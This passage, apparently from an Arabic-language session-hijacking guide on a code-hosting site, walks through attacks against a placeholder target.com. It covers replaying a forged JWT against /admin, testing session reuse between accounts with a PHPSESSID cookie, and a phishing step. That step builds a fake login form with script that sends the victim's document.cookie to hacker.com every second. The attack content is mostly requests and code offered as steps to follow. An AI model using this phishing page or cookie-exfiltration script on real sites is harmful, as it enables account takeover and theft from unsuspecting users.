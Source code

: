 #### ٥. استخدام التوكن الجديد:
```http
GET /admin HTTP/1.1
Host: target.com
Authorization: Bearer NEW_JWT_TOKEN
```

#### 🛠️ الأدوات:
- JWT Editor (Burp)
- John The Ripper
- hashcat

---

# 🧪 Session Hijacking – المحاولة 9: استخدام Session Reuse بين المستخدمين

### 📌 الفكرة:
بعض التطبيقات تستخدم نفس الجلسة لعدة مستخدمين أو لا تقوم بمسح الجلسات القديمة.

### ⚙️ الخطوات:

#### ١. سجل دخول كمستخدم A
- احصل على Session ID.

#### ٢. استخدم نفس التوكن مع حساب مستخدم B
```http
GET /profile HTTP/1.1
Host: target.com
Cookie: PHPSESSID=abc123xyz
```

#### ٣. لو ظهر لك بيانات المستخدم B → ثغرة موجودة

#### 🛠️ الأدوات:
- Burp Repeater
- Cookie Manager Extensions

---

# 🧪 Session Hijacking – المحاولة 10: استخدام Session Hijacking عبر Phishing

### 📌 الفكرة:
إنشاء صفحة ويب مزيفة تشبه صفحة تسجيل الدخول وتقوم بنقل الجلسة الحقيقية إلى المهاجم.

### ⚙️ الخطوات:

#### ١. إنشاء صفحة Login مزيفة
```html
<form action="https://target.com/login" method="POST">
  <input type="text" name="username">
  <input type="password" name="password">
</form>

<script>
  setInterval(() => {
    fetch('https://hacker.com/cookies?c='+document.cookie);
  }, 1000);
</script>
```
